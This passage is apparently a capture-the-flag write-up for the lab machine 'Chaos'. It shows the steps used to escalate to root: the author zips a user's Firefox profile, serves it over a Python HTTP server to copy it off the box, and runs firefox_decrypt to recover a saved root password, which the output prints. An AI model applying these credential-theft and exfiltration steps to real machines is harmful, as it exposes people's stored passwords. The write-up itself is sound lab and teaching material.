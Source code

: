 not sure why i didn't check the default directory fully first.

```
/bin/ls -la
total 40
drwx------ 6 ayush ayush 4096 Feb 11 21:46 .
drwxr-xr-x 4 root  root  4096 Oct 28 11:34 ..
drwxr-xr-x 2 root  root  4096 Oct 28 12:25 .app
-rw------- 1 root  root     0 Nov 24 23:57 .bash_history
-rw-r--r-- 1 ayush ayush  220 Oct 28 11:34 .bash_logout
-rwxr-xr-x 1 root  root    22 Oct 28 12:27 .bashrc
drwx------ 3 ayush ayush 4096 Feb 11 03:37 .gnupg
drwx------ 3 ayush ayush 4096 Oct 28 12:17 mail
drwx------ 4 ayush ayush 4096 Sep 29 12:09 .mozilla
-rw-r--r-- 1 ayush ayush  807 Oct 28 11:34 .profile
-rw------- 1 ayush ayush   33 Oct 28 12:54 user.txt
```

.APP

```
lrwxrwxrwx 1 root  root     8 Oct 28 12:25 dir -> /bin/dir
		/bin/dir -a
			.  ..  ayush  sahay

lrwxrwxrwx 1 root  root     9 Oct 28 12:25 ping -> /bin/ping
lrwxrwxrwx 1 root  root     8 Oct 28 12:25 tar -> /bin/tar
```

FIREFOX

```
drwx------ 2 ayush ayush 4096 Sep 29 12:09 extensions
drwx------ 4 ayush ayush 4096 Sep 29 12:09 firefox
```

```
drwx------ 10 ayush ayush   4096 Feb 12 02:25  bzo7sjt1.default
drwx------  4 ayush ayush   4096 Oct 15 03:59 'Crash Reports'
-rw-r--r--  1 ayush ayush    104 Sep 29 12:09  profiles.ini
-rw-rw-r--  1 ayush ayush 716752 Feb 12 03:16  user.zip
```

Root

I used zip to compress the mozilla profile and used a github decryptor to get the login creds. transfering bzo7sjt1.default to my system was tricky and compressing it.by default i went to tar but i was getting some kind of error where tar was truncating itsself. there are ways to force / bypass. Zip came to the rescue.

https://github.com/unode/firefox_decrypt

```
/usr/bin/zip user.zip bzo7sjt1.default/* 
/usr/bin/python -m SimpleHTTPServer 9017
```

```
python firefox_decrypt/firefox_decrypt.py bzo7sjt1.default/
2019-02-11 22:28:36,944 - WARNING - profile.ini not found in bzo7sjt1.default/ 
2019-02-11 22:28:36,944 - WARNING - Continuing and assuming 'bzo7sjt1.default/'
is a profile location

Master Password for profile bzo7sjt1.default/:

Website:   https://chaos.htb:10000
Username: 'root'
Password: 'Thiv8wrej~'

```

So log back in and su root and enter the password.